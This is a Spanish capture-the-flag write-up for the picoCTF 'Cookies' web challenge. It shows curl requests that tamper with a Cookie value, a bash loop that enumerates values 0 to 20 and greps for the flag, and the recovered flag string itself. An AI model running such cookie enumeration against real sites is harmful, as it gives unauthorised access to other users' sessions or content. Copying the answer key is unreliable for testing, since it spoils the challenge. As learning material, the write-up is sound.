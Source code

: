 ## Descripción del reto
¿A quién no le encantan las galletas? Intenta descubrir cuál es el mejor. http://mercury.picoctf.net:21485/
## Pistas 
-
## Solución 
Para ello acudimos dando un curl al sitio con cierto determinado valor de la Cookie, por ejemplo yo probe con la 3, a ver que nos arroja:
$ curl http://mercury.picoctf.net:21485/check -H  "Cookie:name=3"
<!DOCTYPE html>
`<html lang="en">`

`<head>`
    `<title>Cookies</title>`


    `<link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">`

    `<link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">`

    `<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>`

    `<script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>`
`</head>`

`<body>`

    `<div class="container">`
        `<div class="header">`
            `<nav>`
                `<ul class="nav nav-pills pull-right">`
                    `<li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>`
                    `</li>`
                `</ul>`
            `</nav>`
            `<h3 class="text-muted">Cookies</h3>`
        `</div>`
        
        `<!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->`
        
        
        `<div class="alert alert-success alert-dismissible" role="alert" id="myAlert">`
          `<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>`
          `<!-- <strong>Title</strong> --> That is a cookie! Not very special though...`
            `</div>`
      
      
      
        `<div class="jumbotron">`
            `<p class="lead"></p>`
            `<p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>`
        `</div>`


        `<footer class="footer">`
            `<p>&copy; PicoCTF</p>`
        `</footer>`

    `</div>`
    `<script>`
    `$(document).ready(function(){`
        `$(".close").click(function(){`
            `$("myAlert").alert("close");`
        `});`
    `});`
    `</script>`
`</body>`
Una vez ejecutamos el curl y comprobamos que esta efectivamente nos encuentra la cookie que seleccionamos de ejemplo, entonces para encontrar la correcta, hacemos lo siguiente: 
Mediante el ciclo for podemos recorrer posiciones, entonces en este caso vamos a recorrer 21 posiciones, desde el 0 al 20. Pero también hay que poner una pipa para poder juntar el comando 
grep, el cual nos va auxiliar de encontrar nuestra flag con la cadena "picoCTF":
<font style="color:green">for i in {0..20}; do curl -s http://mercury.picoctf.net:21485/check -H  "Cookie:name=$i"; done | grep picoCTF </font>
De esta manera se ciclará mediante las cookies, y nos permitirá encontrar una que nos arroje la correcta de mando con el comando grep.
─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:21485/check -H  "Cookie:name=$i"; done | grep picoCTF
            `<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>`
Una vez ejectuado nos manda la flag directamente.



## Contraseña obtenida 
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
## Notas 
Aquí aprendí a implementar el curl, junto con el grep además de que desconocia que se podía usar tambíen un ciclo for para poder recorrer distintas posiciones de alguna página.
## Referencias
https://www.educatica.es/sistemas-operativos/gnu-linux/trabajando-con-la-shell-de-gnu-linux/bash-shell-scripts/shell-scripts-bucle-for/#:~:text=El%20comando%20for%20nos%20permite,el%20primero%20hasta%20el%20%C3%BAltimo.
https://blogs.upm.es/estudiaciencia/bucles-y-condicionales/
https://www.hostinger.mx/tutoriales/bash-for-loop-guia-ejemplos
